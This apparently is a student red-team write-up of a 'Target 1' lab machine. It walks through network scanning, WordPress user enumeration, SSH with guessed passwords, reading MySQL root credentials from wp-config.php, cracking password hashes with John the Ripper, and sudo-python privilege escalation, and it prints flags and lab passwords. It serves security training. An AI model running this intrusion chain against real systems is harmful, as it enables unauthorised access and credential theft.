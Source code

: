 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

_netdiscover shows the ip addresses of targets and active machines in the network._

```bash
root@Kali:~\# netdiscover -r 192.168.1.255/24
```

![](Images/Target_1/netdiscover_-r_192_168_1_255_16.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
root@Kali:~\# nmap -sV 192.168.1.110
```

![](Images/Target_1/nmap_-sV_192_168_1_110.png)
![](Images/Target_1/nmap_-sV_192_168_1_0_24.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - _Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4_ 
  - _Port 80/tcp open Apache httpd 2.4.10 ((Debian))_
  - _Port 111/tcp open rpcbind 2-4 (RPC #100000)_
  - _Port 139/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_
  - _Port 445/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_


The following vulnerabilities were identified on _**Target 1**_:
- _**Target 1**_
  - [CVE-2021-28041 OpenSSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

### Vulnerabilities

These were the vulnerabilities found on _**Target 1**_
  - _Network Mapping and User Enumeration using Wordpress site_
    - _Using nmap we were able to discover open ports on the network._
  - _Weak user passwords_
    - _Users had weak passwords which were easily guessed to **SSH** into the web server._
  - _Unsalted User Password hash on the Wordpress database._
    - _Using the **wpscan** command we were able to identify username information, this information was used to gain access to the web server._
  - _MySQL Data exfiltration_
    - _Gaining access to the MySQL database we were able to view various tables and databases from the wordpress site. By gaining access, this allowed us to view the hashes for certain users._
  - _Wrong configuration of User privs for privilege escalation._
    - _We noticed you were able to use **sudo** with **python** under steven's account, this then allowed us to escalate privs to root by running a python script._


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
  - _Enumerating the Wordpress users with `wpscan` allowed us to find michael's username which then was used to **SSH** into his user shell._
  - `wpscan --url http://192.168.1.110/wordpress -eu`

  ![](Images/Target_1/wpscan_--url_192_168_1_100_wordpress_-eu.png)
  ![](Images/Target_1/wpscan_users_target_1.png)

The folling screenshots show the website page visited with the _**Target 1**_ ip address.

  ![](Images/Target_1/port_80_192_168_1_110.png)
  ![](Images/Target_1/port_80_192_168_1_110_blog.png)

- Target 1
  - `flag1.txt`: _flag1{69bbcb33e11b80be759c4e844862482d}_
    - **Exploit Used**
      - _Viewing source code of the **service.html** page_
      - _ssh into michaels machine to view the `/var/www/service.html` file._
      - _The password was easily guessed which was **michael**_
      - _Commands used: `cd /var/www`, `nano service.html` and then `ctrl+w flag1`_

  ![](Images/Target_1/ssh_michael_machine.png)
  ![](Images/Target_1/flag_1_service_html.png)
  ![](Images/Target_1/michael_flag_1.png)

  - `flag2.txt`: _flag2{fc3fd58dcdad9ab23faca6e9a36e581c}_
    - **Exploit Used**
      - _ssh into michaels machine to view the `/var/www` directory_
      - _Commands used:_
        - `cd /var/www` 
        - `ls -lah`
        - `cat flag2.txt`

  ![](Images/Target_1/michael_flag_2.png)

  - `flag3.txt`: _flag3{afc01ab56b50591e7dccf93122770cd2}_
    - **Exploit Used**
      - _Within michael's shell, we searched for the **MySQL** database password._
      - _Upon finding the **MySQL** password and **User** information, we were then able to use this information to login and find `flag3` located within the **wp\_posts** table_
      - _Commands used:_
        - `cd /var/www/html/wordpress`
        - `ls`
        - `cat wp-config.php`

  ![](Images/Target_1/cat_wp_config_file_.png)
  ![](Images/Target_1/cat_wp_config_file_1.png)
  ![](Images/Target_1/cat_wp_config_file_2.png)

   - _The credential used to login to the **MySQL** database were:_      - _user: root_
      - _password: R@v3nSecurity_
      - _Command used:_
        - _`mysql -u root -pR@v3nSecurity`_
      - _Commands used to find flag3:_
        - `show databases;`
        - `use wordpress`
        - `show tables;`
        - `select * from wp_posts;`
        - `select user_pass from wp_posts`

  ![](Images/Target_1/mysql_login_show_databases.png)
  ![](Images/Target_1/mysql_databases_tables.png)
  ![](Images/Target_1/mysql_hashes.png)
  ![](Images/Target_1/flag_3.png)

  - `flag4.txt`: _flag4{715dea6c055b9fe3337544932f2941ce}_
    - **Exploit used**
      - _Used john the ripper to crack the hashes found in the **MySQL** database._
      - _Added hashes to a **wp\_hashes.txt** file_
      - _John found steve's password to be pink84._
      - _Commands used:_
        - `john --wordlist=/usr/share/wordlists/rockyou.txt wp_hashes.txt`
        - `john --show wp_hashes.txt`

  ![](Images/Target_1/john_cracked_steven_pass.png)

    - _After cracking steven;s password, we then used it to gain steven's shell._
    - _Commands used:_
      - `ssh steven@192.168.1.110`
      - _password: pink84_
      - _Escalating to root shell._
        - _Checking for sudo privliges._
        - `sudo -l`
        - _This showed that steven had sudo privliges for **/usr/bin/python**_

  ![](Images/Target_1/steven_sudo_privs.png)
    
    - _Upon revealing there was sudo privliges using python we found a script that would escalate privliges to root._
      - `sudo -c 'import pty;pty.spawn("/bin/bash")'`

  ![](Images/Target_1/sudo_python_script.png)
  
    - _Commands used to find flag4:_
      - `find / -name flag4.txt`
      - `cd /home/steven`
      - `ls`
      - `cat flag4.txt`

  ![](Images/Target_1/root_flag4.png)
